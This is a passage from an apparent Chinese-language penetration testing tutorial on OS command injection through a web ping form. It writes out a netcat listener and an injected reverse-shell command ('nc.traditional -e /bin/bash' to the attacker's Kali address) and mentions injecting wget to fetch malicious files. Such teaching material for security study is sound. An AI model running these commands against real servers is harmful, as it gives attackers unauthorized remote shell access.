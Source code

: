 应用程序从客户端接受用户输入的值而不进行验证，并将其连接到`ping -c 3`命令，以构建在 Web 服务器上运行的最终命令。服务器的响应显示在以下屏幕截图中。由于应用程序未能验证用户输入，显示了底层操作系统的版本以及对给定地址进行 ping 的结果：

![](img/00116.jpeg)

注入的附加命令将使用 Web 服务器的权限运行。现在大多数 Web 服务器都以受限权限运行，但即使权限有限，攻击者也可以利用并窃取重要信息。

命令注入可以用于通过注入`wget`命令使服务器下载和执行恶意文件，或者通过以下示例演示的方式获得对服务器的远程 shell。

首先，在 Kali Linux 中设置一个监听器。**Netcat**有一种非常简单的方法来做到这一点：

```
nc -lvp 12345  
```

Kali Linux 现在已设置为在端口`12345`上监听连接。接下来，将以下命令注入到受漏洞的服务器中：

```
nc.traditional -e /bin/bash 10.7.7.4 12345 
```

在一些现代 Linux 系统中，原始的 Netcat 已被替换为不包含某些可能存在安全风险的选项的版本，例如允许在连接时执行命令的`-e`选项。这些系统通常在名为`nc.traditional`的命令中包含传统版本的 Netcat。在尝试使用 Netcat 访问远程系统时，请尝试这两个选项。

请注意，`10.7.7.4`是示例中 Kali 机器的 IP 地址，`12345`是用于监听连接的 TCP 端口。发送请求后，您应该在 Kali Linux 中接收到连接，并能够在非交互式 shell 中发出命令：
